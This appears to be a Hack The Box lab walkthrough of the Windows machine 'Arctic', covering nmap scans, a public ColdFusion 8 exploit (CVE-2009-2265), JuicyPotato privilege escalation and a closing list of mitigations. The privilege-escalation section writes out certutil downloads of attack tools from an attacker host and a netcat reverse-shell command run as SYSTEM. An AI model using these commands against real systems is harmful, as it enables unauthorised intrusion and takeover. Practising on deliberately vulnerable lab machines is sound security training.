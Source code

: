 ```yaml
---
title: Arctic
date: 2025-05-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, CVE-2009-2265, JuicyPotato-privesc] 
image: ar.png
media_subpath: /assets/img/posts/2025-05-23-arcticHTB/
---
```


## Introduction

In this walkthrough, I explore *Arctic*, an easy-level Windows machine with a relatively simple exploitation path. I began by analyzing the web server's behavior and pinpointing a vulnerable instance of **Adobe ColdFusion**. After some initial troubleshooting, I discovered an unauthenticated file upload vulnerability, which I used to upload a malicious script and gain a shell on the system. Once on the box, I confirmed that the user had the **SeImpersonatePrivilege**, allowing me to perform a **JuicyPotato** attack and escalate privileges to `NT AUTHORITY\SYSTEM`.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

## Web

### Port 8500

The port shows to be `fmtp` I tried accessing it from browser, it showed me 2 directories and I clicked on one of them and them clicked on `administrator` directory and it opened `Coldfusion 8` admin login. I searched for public exploits for this version of application and found the following one:

[CVE-2009-2265](https://www.exploit-db.com/exploits/50057)

Executing the exploit I gained a shell:

```bash
python3 cold.py
```

Before doing this don’t forget to change IP and PORT inside of script.

![image.png](image%203.png)

## Privilege Escalation

I have `SeImpersonatePrivilege` enabled:

![image.png](image%204.png)

![image.png](image%205.png)

Let’s perform [JuicyPotato](https://github.com/ohpe/juicy-potato) attack:

```bash
certutil -urlcache -split -f http://10.10.14.17/JuicyPotato.exe
certutil -urlcache -split -f http://10.10.14.17/nc64.exe
```

```bash
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc64.exe 10.10.14.17 8443 -e cmd.exe" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

I have chosen CLSID from this repo for R2 enterprise as closest version of our target and got a shell as nt authority\system.

![image.png](image%206.png)

![image.png](image%207.png)

## Mitigation

- **Update and Patch Software:** Ensure ColdFusion and other server-side applications are fully updated to the latest secure versions.
- **Restrict File Uploads:** Implement strict validation on file uploads, limit accepted file types, and store uploads in non-executable directories.
- **Remove Unnecessary Privileges:** Audit and remove privileges like `SeImpersonatePrivilege` from non-administrative users to prevent token impersonation.
- **Web Server Hardening:** Disable unnecessary services and use secure configurations to reduce the attack surface.
- **Network Segmentation:** Limit direct access to application servers from the internet whenever possible.
- **Monitoring and Alerting:** Set up alerts for unusual file uploads, privilege escalation attempts, or abnormal process activity.
